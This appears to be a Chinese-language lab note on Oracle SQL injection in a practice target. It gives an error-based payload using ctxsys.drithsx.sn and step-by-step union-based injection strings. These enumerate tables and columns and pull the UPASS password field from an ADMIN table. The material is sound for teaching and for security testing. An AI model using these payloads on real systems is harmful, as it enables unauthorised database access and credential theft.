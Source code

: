 # Chapter 5.5 报错注入

靶场：.本靶场是Oracle数据库 所以报错注入和之前mysql数据库的（updatexml()）有所不同,

Oracle报错注入的方法：

不用管输出点
不用管数据类型
不用管字段数

直接and 1=ctxsys.drithsx.sn(1,(select UPASS from ADMIN where id=2))

1.  ```select * from all_tables ```查询出所有的表
2.  ```select * from user_tables 查询出当前用户的表```
3.  ```select*from all_tab_columns 查询出所有的字段```
4.  ```*select*from user_tab_columns  查询出当前用户的字段```
5.  ```select*from v$version 查版本```



1. 先还是用显错注入做靶场 老规矩 and 1=1页面正常 and 1=2页面报错 order by猜解字段数为4
   然后union all select null,null,null,null from dual（这里也和mssql一样用null去填充 后面的from dual一定要写 dual是Oracle数据库自带的表）

2. 查询当前用户的表 

   ```mysql
   union all select null,null,null,null from user_table
   #这时不知道哪里是输出点 所以需要探测一下文件的类型
   and 1=2 union all select 1,to_nchar('a'),null,null from user_tables 
   #注意：to_nchar 将varchar2转为nvarchar2
   ```

3. 找到了输出点后

   ```mysql
   and 1=2 union all select 1,to_nchar(table_name),null,null from user_tables
   ```

4. 查询我们需要的表名 ADMIN

   ```mysql
   and 1=2 union all select 1,to_nchar(table_name),null,null from user_tables where table_name!='NEWS'
   ```

   

5. 查询列名 找出列名 ID UNAME UPASS

   ```mysql
   and 1=2 union all select 1,to_nchar(column_name),null,null from user_tab_columns where table_name='ADMIN' and column_name!='ID' and column_name!='UNAME'
   ```

6. 找到UPASS后

   ```mysql
   and 1=2 union all select 1,to_nchar(UPASS),null,null from ADMIN where id=2
   #找出flag
   ```



